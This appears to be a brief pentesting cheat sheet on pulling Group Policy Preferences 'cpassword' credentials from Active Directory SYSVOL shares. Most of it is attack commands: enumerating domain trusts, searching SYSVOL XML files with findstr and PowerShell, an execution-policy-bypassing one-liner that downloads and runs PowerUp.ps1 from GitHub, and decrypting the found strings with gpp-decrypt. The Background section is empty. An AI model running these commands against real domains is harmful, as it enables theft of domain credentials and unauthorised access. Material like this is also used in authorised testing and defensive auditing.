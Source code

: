 
## Background


## How to check for


Note that if the domain have trust with another domain it is likely that your user will access the SYSVOL of that domain as well.  
So make sure to check both (or however many domains there are trust too) domains SYSVOL.

To check which other domains there are trust to 

```
nltest /domain_trusts
```


## Using CMD findstr

```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

### Using PowerUp.ps1

```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1'); Get-CachedGPPPassword"
```



### Semi-manually



Mount the SYSVOL of a Domain Controller

```
net use K: \\dc01\sysvol
K:
cd <domain>\Policies
gci -recurse -filter "*.xml" | select-string cpass | out-file C:\Users\<YOUUSER>\Documents\gppresults.txt
```

If you found a string you can decrypt it with:

```
gpp-decyypt <string>
```

## References

For more info: https://adsecurity.org/?p=2288
